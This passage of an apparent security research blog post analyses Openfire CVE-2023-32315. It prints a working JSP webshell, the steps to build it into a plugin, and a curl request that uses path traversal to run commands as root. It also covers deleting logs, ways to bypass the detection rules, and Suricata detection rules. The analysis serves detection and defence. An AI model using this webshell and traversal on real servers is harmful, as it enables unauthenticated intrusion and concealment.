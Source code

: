 \[33mWARN \[m \[Jetty-QTP-AdminConsole-39\]: org.eclipse.jetty.server.handler.ContextHandler.ROOT - Unhandled exception occurred whilst decorating page\\n> java.lang.NullPointerException: Cannot invoke "org.jivesoftware.openfire.user.User.getUsername()" because the return value of "org.jivesoftware.util.WebManager.getUser()" is null\\n\\n> 2023.08.18 17:19:49 \[33mWARN \[m \[Jetty-QTP-AdminConsole-39\]: org.eclipse.jetty.server.HttpChannel - /setup/setup-s/%u002e%u002e/%u002e%u002e/plugin-admin.jsp\\n> java.lang.NullPointerException: Cannot invoke "org.jivesoftware.openfire.user.User.getUsername()" because the return value of "org.jivesoftware.util.WebManager.getUser()" is null\\n\\n\\nUnfortunately, an attacker could use the path traversal to delete the log file. Depending on the permissions of the Openfire user, the attacker might be able to delete the log file via the webshell/reverse shell,which leaves the plugin itself as the only artifact that indicates exploitation. This is why it's important to know how one is crafted when analyzing a system that might have been exploited.\\n\\nWe were very lazy when crafting our plugin. We just used the \[Openfire example plugin\](https://github.com/igniterealtime/openfire-exampleplugin). The only modification we made was to \`/src/main/web/exampleplugin-page.jsp\` when we changed the JSP into a very simple webshell (with a weird X-Header that we’ll touch on later).\\n\\n\`\`\`java\\n<%\\nString cmd = request.getParameter("cmd");\\nif ( cmd != null) {\\n java.io.DataInputStream in = new java.io.DataInputStream(Runtime.getRuntime().exec(cmd).getInputStream());\\n String line = in.readLine();\\n if (line != null) {\\n response.setHeader("X-Error", line);\\n }\\n} %>\\n\`\`\`\\n\\nThe real challenge was figuring out how to compile the thing (it probably should have been obvious, and we think we even came to a wrong conclusion… but it works). Our process roughly worked out to:\\n\\n\`\`\`sh\\ngit clone https://github.com/igniterealtime/openfire-exampleplugin.git\\ncd openfire-exampleplugin\\ncp ../webshell.jsp ./src/main/web/exampleplugin-page.jsp\\nmvn -B package\\ncp ./target/exampleplugin.jar exampleplugin.zip; zip -ur exampleplugin.zip ./plugin.xml ./readme.html; mv exampleplugin.zip ./target/exampleplugin.jar;\\n\`\`\`\\n\\n\`./target/exampleplugin.jar\` is then ready to be uploaded. It’s important to know that the plugin does not keep the webshell in its raw form. The webshell gets compiled into a class. So if you want to go hunting for the webshell, you have to dig much deeper than normal.\\n\\n!\[Openfire plugin compiled webshell in jd-gui\](/blog/openfire-cve-2023-32315/compiled-webshell.png){:width="100%"}\\n\\nOnce uploaded, the plugin looks exactly like the example plugin would. The only difference is that it has our webshell in it. \\n\\n!\[Openfire webshell plugin uploaded\](/blog/openfire-cve-2023-32315/plugin-uploaded.png){:width="100%"}\\n\\nAs previously mentioned, the attacker is free to use the webshell without authentication by using the traversal. However, using the traversal causes an exception and a stack trace to be dumped to standard out, preventing the webshell from presenting any content via the HTTP response body.\\n\\nLooking back at our webshell, you can see that we send all command output to an HTTP header. Which means even though accessing the webshell via the path traversal generates a huge error message, we can still execute and view arbitrary commands:\\n\\n\`\`\`sh\\nalbinolobster@mournland:~$ curl -v "http://10.9.49.143:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/plugins/exampleplugin/exampleplugin-page.jsp?cmd=id"\\n\* Trying 10.9.49.143:9090...\\n\* TCP\_NODELAY set\\n\* Connected to 10.9.49.143 (10.9.49.143) port 9090 (#0)\\n> GET /setup/setup-s/%u002e%u002e/%u002e%u002e/plugins/exampleplugin/exampleplugin-page.jsp?cmd=id HTTP/1.1\\n> Host: 10.9.49.143:9090\\n> User-Agent: curl/7.68.0\\n> Accept: \*/\*\\n>\\n\* Mark bundle as not supporting multiuse\\n< HTTP/1.1 200 OK\\n< Date: Fri, 18 Aug 2023 17:20:01 GMT\\n< X-Frame-Options: SAMEORIGIN\\n< Content-Type: text/html\\n< Set-Cookie: JSESSIONID=node07guewb33cw4m1va20g1n0okxd6.node0; Path=/; HttpOnly\\n< Expires: Thu, 01 Jan 1970 00:00:00 GMT\\n< X-Error: uid=0(root) gid=0(root) groups=0(root)\\n< Content-Length: 6335\\n<\\n\`\`\`\\n\\nFrom there you can trivially pivot inward, remove the webshell, and hide within the system. All without creating the administrative user and making a mess in the log files.\\n\\n## Detections\\n\\nAny good attacker should know how to detect as well. VulnCheck is particularly interested in network-based detections. Detecting this attack on the wire isn’t too complicated, but there is some nuance.\\n\\nSuricata correctly normalizes the \`%u002e%u002e/\` as a path traversal. That sounds great, and naively a rule look the following rule can be crafted to detect all of the public exploits we’ve seen thus far:\\n\\n\`\`\`\\nalert http any any -> any any ( \\\\n msg:"VULNCHECK Openfire CVE-2023-32315 Exploit Attempt"; \\\\n flow:established,to\_server; \\\\n http.uri.raw; content:"/setup/setup-s/"; startswith; \\\\n http.uri; content:!"/setup/setup-s/"; startswith; \\\\n reference:cve,CVE-2023-32315; \\\\n classtype:web-application-attack; \\\\n sid:12701381; rev:1;)\\n\`\`\`\\n\\nThe problem is that it's really easy to bypass. For example, if the attacker just started the URI with \`/./\` then it will break the rule. Or \`/setup/./setup-s/\`. Plenty of little tricks like that. So this “good enough” rule should really be augmented with additional rules just in case someone wants to get clever:\\n\\n\`\`\`\\nalert http any any -> any any ( \\\\n msg:"VULNCHECK Openfire CVE-2023-32315 Exploit Attempt (Account)"; \\\\n flow:established,to\_server; \\\\n http.uri.raw; content:"setup"; \\\\n content:"setup-s"; distance: 1; \\\\n content:"%u002e"; distance: 1; \\\\n